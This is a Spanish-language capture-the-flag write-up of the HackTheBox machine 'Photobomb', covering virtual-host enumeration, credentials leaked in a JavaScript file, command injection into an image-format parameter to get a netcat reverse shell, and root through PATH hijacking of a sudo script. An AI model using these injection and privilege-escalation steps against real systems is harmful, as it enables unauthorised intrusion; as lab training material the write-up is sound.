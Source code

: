 ```yaml
---
title: Photobomb Writeup
author: L4nder
date: 2023-02-06
img_path: /assets/img/HTB/photobomb
categories: [Writeup, HTB]
tags: [HackTheBox, Writeup, RCE, Easy, Path Hijacking, Sudo]
image:
  path: /photobomb.png
  width: 800
  height: 500
  alt: Photobomb
---
```


Bueeeno, el dia de hoy nos haremos una maquina de dificultad **FACIL**!, de hecho, fue mi primera máquina activa que hice xD, le tengo nostalgia a la máquina.

Bueno, en esta máquina tocaremos los siguientes puntos:
- Virtual Hosting
- Code Injection (RCE)
- Y un Path Hijacking para la escalada de privilegios!

## Enumeración

Primero vamos a comprobar que la máquina esté encendida con una traza ICMP (ping).

```plaintext
❯ ping -c 1 10.10.11.182
PING 10.10.11.182 (10.10.11.182) 56(84) bytes of data.
64 bytes from 10.10.11.182: icmp_seq=1 ttl=63 time=34.4 ms

--- 10.10.11.182 ping statistics --- 
1 packet transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 36.212/36.212/36.212/0.000 ms
```

En el output del comando podemos ver el parámetro `ttl`, el cual indica que es equivalente a `63`, nos podemos guiar del siguiente esquema para diferenciar a que sistema operativo nos estamos enfrentando.

```plaintext
TTL(64) -> GNU/Linux
TTL(128) -> Windows
```

En nuestro caso, el TTL se aproxima a 64, pero sin serlo, esto pasa porque en plataformas como HackTheBox o TryHackMe la traza ICMP pasa por un nodo intermediario, el cual le resta 1 punto al TTL.

Bueno, como en todas las máquinas, tendremos que comenzar escaneando todos los puertos, primeramente escanearemos TCP.

```plaintext
❯ nmap 10.10.11.182
Nmap scan report for photobomb.htb (10.10.11.182)
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
```

Al hacer un curl a la web y fijarnos en las cabeceras, podemos observar que nos redirige a `photobomb.htb`, este termino se le conoce como **VIRTUAL HOSTING**, ya que en este caso no podemos acceder a la web por la IP.

```plaintext
❯ curl -s 10.10.11.182 -I | grep "Location"
Location: http://photobomb.htb/
```

Bueno, tendremos que añadir el dominio `photobomb.htb` al /etc/hosts

```plaintext
❯ echo "10.10.11.182 photoboomb.htb" | sudo tee -a /etc/hosts
```

Si nos fijamos en el código fuente encontramos un archivo .js con el siguiente contenido

```shell
❯ curl -s -X GET http://photobomb.htb/photobomb.js
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```

Si nos fijamos bien, encontramos la url `http://pH0t0:b0Mb!@photobomb.htb/printer`, al abrirla nos autentica automaticamente, y podemos ver lo siguiente

<img src="Web1.png">

En la parte de abajo podemos descargar las imagenes en formato png y jpg.

<img src="descargar.png">

## Explotación

Interceptando la petición podemos observar que para elegir el formato de la imagen se puede cambiar aquí.

<img src="burp.png">

Nos podmemos imaginar que la web usa un binario para la conversión del formato de la imagen, si este es el caso, podemos concatenarle un comando.

Así que crearemos una reverse shell con nc y mkfifo en [Reverse Shells](https://revshells.com), recordad que esta ha de ser url encodeada.

<img src="rev.png">
<img src="rev2.png">

Para poner el cmoando despues del png pnemos un `;` y nuestr oneliner

<img src="burprev.png">

Al darle a forward recibimos la shell y conseguimos la primera flag!

```plaintext
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.182] 44954
wizard@photobomb:~/photobomb$ id
id
uid=1000(wizard) gid=1000(wizard) groups=1000(wizard)
wizard@photobomb:~/photobomb$ hostname -I
hostname -I
10.10.11.182 dead:beef::250:56ff:feb9:86ca
wizard@photobomb:~/photobomb$ cat ../user
cat ../user.txt
638**************************393
wizard@photobomb:~/photobomb$
```

## Escalada de Privilegios

Al mirar los privilegios que tenemos, observamos que podemos ejecutar un script, pero además tenemos la capacidad de setear variables de entorno

```plaintext
wizard@photobomb:~$ sudo -l
Matching Defaults entries for wizard on photobomb:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
(root) SETENV: NOPASSWD: /opt/cleanup.sh
wizard@photobomb:~$
```

Mirando el script podemos ver que usa find de manera relativa y no con su ruta absoluta.

```plaintext
wizard@photobomb:~$ cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb
# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
/bin/cat log/photobomb.log > log/photobomb.log.old
/usr/bin/truncate -s0 log/photobomb.log
fi
# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
wizard@photobomb:~$
```

Nos podemos aprovechar de nuestro privilegio de poder setear variables de entorno como el path para que nos ejecute el coamndo find personalizado, y bajo el contexto de root nuestro comando find personalizado se ejecutará como root

Para esto tendremos que crear un archivo find que tenga bash en su interior y le daremos permisos de ejecución.

```plaintext
wizard@photobomb:~$ echo bash > find
wizard@photobomb:~$ chmod +x find
wizard@photobomb:~$
```

Ahora cambiamos la variable path y ejecutamos el script, consiguiendo una consola como root

```plaintext
wizard@photobomb:~$ sudo PATH=$PWD:$PATH /opt/cleanup.sh
root@photobomb:/home/wizard/photobomb# id
uid=0(root) gid=0(root) groups=0(root)
root@photobomb:/home/wizard/photobomb# hostname -I
10.10.11.182 dead:beef::250:56ff:feb9:86ca
root@photobomb:/home/wizard/photobomb# cat /root/root.txt
0ad********************058
root@photobomb:/home/wizard/photobomb#
```

Bueno, este ha sido mi primer writeup! Espero que os haya gustado!